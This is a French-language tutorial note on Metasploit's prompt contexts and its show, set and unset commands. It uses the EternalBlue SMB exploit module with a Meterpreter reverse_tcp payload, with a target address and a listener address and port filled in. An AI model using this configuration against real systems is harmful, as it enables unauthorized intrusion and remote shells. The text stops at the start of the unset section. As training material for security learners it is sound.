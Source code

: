 
## __Contexte__

Il y a plusieurs contexte dans metasploit, 
- **regular command prompt**, on ne peut pas utiliser metasploit ici.

```shell
root@ip:~#
```

- **msfconsole prompt**, c'est la console metasploit.

```shell
msf6 >
```

- **Context prompt**, elle indique le module que l'on utilise.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

- **Meterpreter prompt**, cela signifie qu'un agent Meterpreter a été chargé sur la machine ciblé.

```shell
meterpreter >
```

- **shell on the target system**, c'est la ligne de commande sur la machine exploité.

```shell
C:\Windows\system32>
```


## __Options__

### Show

Pour obtenir la **liste des options** dont a besoin un module pour fonctionner on utilise la commande **`show options`**.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                             /basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows
                                              Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 20
                                             08 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.0.4         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

### Set

Pour **donner une valeur** a notre option, on utilise la commande **`set <option> <value>`**.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                             /basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows
                                              Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 20
                                             08 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.0.4         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

### Unset

Unset sert à remettre la valeur d'une option par defaut.